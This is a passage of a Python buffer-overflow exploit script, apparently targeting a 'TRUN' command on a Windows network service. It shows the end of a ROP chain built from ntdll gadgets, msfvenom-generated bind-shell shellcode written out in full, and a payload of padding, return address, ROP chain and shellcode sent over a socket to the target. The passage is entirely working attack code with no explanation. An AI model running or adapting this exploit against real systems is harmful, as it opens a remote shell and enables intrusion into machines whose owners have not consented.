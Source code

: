 ``` python
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)


# msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xbe\x9a\xd8\xa3\xeb\xd9\xc6\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x53\x31\x75\x12\x83\xc5\x04\x03\xef"
SHELL += b"\xd6\x41\x1e\xf3\x0f\x07\xe1\x0b\xd0\x68\x6b\xee"
SHELL += b"\xe1\xa8\x0f\x7b\x51\x19\x5b\x29\x5e\xd2\x09\xd9"
SHELL += b"\xd5\x96\x85\xee\x5e\x1c\xf0\xc1\x5f\x0d\xc0\x40"
SHELL += b"\xdc\x4c\x15\xa2\xdd\x9e\x68\xa3\x1a\xc2\x81\xf1"
SHELL += b"\xf3\x88\x34\xe5\x70\xc4\x84\x8e\xcb\xc8\x8c\x73"
SHELL += b"\x9b\xeb\xbd\x22\x97\xb5\x1d\xc5\x74\xce\x17\xdd"
SHELL += b"\x99\xeb\xee\x56\x69\x87\xf0\xbe\xa3\x68\x5e\xff"
SHELL += b"\x0b\x9b\x9e\x38\xab\x44\xd5\x30\xcf\xf9\xee\x87"
SHELL += b"\xad\x25\x7a\x13\x15\xad\xdc\xff\xa7\x62\xba\x74"
SHELL += b"\xab\xcf\xc8\xd2\xa8\xce\x1d\x69\xd4\x5b\xa0\xbd"
SHELL += b"\x5c\x1f\x87\x19\x04\xfb\xa6\x38\xe0\xaa\xd7\x5a"
SHELL += b"\x4b\x12\x72\x11\x66\x47\x0f\x78\xef\xa4\x22\x82"
SHELL += b"\xef\xa2\x35\xf1\xdd\x6d\xee\x9d\x6d\xe5\x28\x5a"
SHELL += b"\x91\xdc\x8d\xf4\x6c\xdf\xed\xdd\xaa\x8b\xbd\x75"
SHELL += b"\x1a\xb4\x55\x85\xa3\x61\xc3\x8d\x02\xda\xf6\x70"
SHELL += b"\xf4\x8a\xb6\xda\x9d\xc0\x38\x05\xbd\xea\x92\x2e"
SHELL += b"\x56\x17\x1d\x41\xfb\x9e\xfb\x0b\x13\xf7\x54\xa3"
SHELL += b"\xd1\x2c\x6d\x54\x29\x07\xc5\xf2\x62\x41\xd2\xfd"
SHELL += b"\x72\x47\x74\x69\xf9\x84\x40\x88\xfe\x80\xe0\xdd"
SHELL += b"\x69\x5e\x61\xac\x08\x5f\xa8\x46\xa8\xf2\x37\x96"
SHELL += b"\xa7\xee\xef\xc1\xe0\xc1\xf9\x87\x1c\x7b\x50\xb5"
SHELL += b"\xdc\x1d\x9b\x7d\x3b\xde\x22\x7c\xce\x5a\x01\x6e"
SHELL += b"\x16\x62\x0d\xda\xc6\x35\xdb\xb4\xa0\xef\xad\x6e"
SHELL += b"\x7b\x43\x64\xe6\xfa\xaf\xb7\x70\x03\xfa\x41\x9c"
SHELL += b"\xb2\x53\x14\xa3\x7b\x34\x90\xdc\x61\xa4\x5f\x37"
SHELL += b"\x22\xd4\x15\x15\x03\x7d\xf0\xcc\x11\xe0\x03\x3b"
SHELL += b"\x55\x1d\x80\xc9\x26\xda\x98\xb8\x23\xa6\x1e\x51"
SHELL += b"\x5e\xb7\xca\x55\xcd\xb8\xde"

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Align stack
    b'\x83\xE4\xF0' +   # and esp, 0xfffffff0
    SHELL +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
